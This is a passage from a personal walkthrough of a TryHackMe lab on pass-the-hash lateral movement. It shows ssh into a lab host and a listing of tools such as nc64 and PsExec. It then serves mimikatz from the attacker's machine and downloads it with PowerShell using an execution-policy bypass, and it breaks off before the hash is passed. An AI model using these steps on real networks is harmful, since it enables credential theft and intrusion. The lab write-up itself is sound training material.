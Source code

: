 
### Practical
---

In this occasion, i will use `PTH`, let's go into ssh first:

```
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com 
```

Inside of the ssh session, we need to go to `C:\tools`, as it says `mimikatz` is on here:

```
za\t2_felicia.dean@THMJMP2 C:\tools>dir
 Volume in drive C has no label.
 Volume Serial Number is F4B0-FCB9

 Directory of C:\tools

05/16/2025  10:32 AM    <DIR>          .
05/16/2025  10:32 AM    <DIR>          ..
06/14/2022  08:27 PM            45,272 nc64.exe
04/19/2022  09:17 PM         1,078,672 PsExec64.exe
05/16/2025  10:33 AM                 0 runas
03/16/2022  05:19 PM           906,752 SharpHound.exe
06/19/2022  05:38 AM    <DIR>          socat
               4 File(s)      2,030,696 bytes
               3 Dir(s)   8,117,424,128 bytes free
```

Since mimikatz is not on the machine (For some reason), we need to install it ourselves, let's get it in our linux machine first:

```bash
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip -O 'mimikatz.zip'
```

Once we got `mimikatz`, we need to do the following:

```powershell
# Start python server
python3 -m http.server

# Download it in our ssh session and unzip it
powershell.exe -ExecutionPolicy Bypass
Invoke-WebRequest 'http://10.50.46.98:8000/mimikatz.zip' -OutFile .\mimikatz.zip

Expand-Archive .\mimikatz.zip
```

Once we do all that, we can see the `mimikatz.exe` file inside of `mimikatz/x64`:

![[Pasted image 20250516143313.png]]

We can now proceed, let's perform pass the hash, in order to do it, let's follow these steps:
